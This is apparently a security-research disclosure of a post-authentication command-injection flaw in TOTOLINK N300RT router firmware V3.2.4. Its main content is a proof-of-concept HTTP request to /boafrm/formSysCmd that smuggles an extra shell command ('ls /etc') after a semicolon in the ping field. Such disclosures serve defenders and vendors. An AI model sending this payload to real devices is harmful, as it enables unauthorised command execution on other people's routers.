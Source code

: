 ## TOTOLINK-N300RT-RCE
Vendor:TOTOLINK
Product:TOTOLINK-N300RT
Version: TOTOLINK-N300RT  V3.2.4-B20180730.0906
Link:http://www.totolink.cn/

### description
TOTOLINK-N300RT has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that

POC：
```
POST /boafrm/formSysCmd HTTP/1.1
Host: 192.168.1.1:80
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1:80
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0
Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,ima
ge/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
sysCmdselect=5&sysCmdselects=0&apply=Run+Command&sysCmd=p
ing+8.8.8.8;ls /etc&submit-url=%2Fsyscmd.htm&msg=
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/471c1696-2a8f-4640-b739-cef4b9d3d516
